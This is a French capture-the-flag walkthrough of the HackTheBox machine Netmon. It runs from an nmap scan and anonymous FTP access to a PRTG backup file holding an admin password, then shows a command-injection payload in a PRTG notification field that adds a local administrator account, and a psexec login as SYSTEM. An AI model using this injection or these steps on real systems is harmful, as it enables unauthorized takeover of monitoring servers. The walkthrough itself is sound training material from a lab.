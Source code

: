 ```yaml
---
title: "HackTheBox - Netmon"
description: "fileoutput.jpg"
tags: ["Dans cet article je vous présente comment être administrateur dans la boîte Netmon, c'était une boîte très amusante mais en même temps très facile. Le FTP n'était pas chroot dans le système ce qui nous permettait de lire des fichiers plus ou moins sensible, il y'avait un service PRTG Network Monitor qui tournait ce qui nous permettait d'être administrateur dans le système]
---
```


![Flower](../fileoutput.jpg)

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé : <br />

Le système Conceal, disponible sur la platform [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y'a le service `PRTG Network Monitor` d'ouvert dans le système et il y'avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin <br />
> Password : PrTg@dmin2019

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823414-1551726438018.png)

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user seyptoo 123 /add;net localgroup administrators seyptoo /add`

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823969-1551726729729.png)

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès.

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# 'seyptoo:123@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.
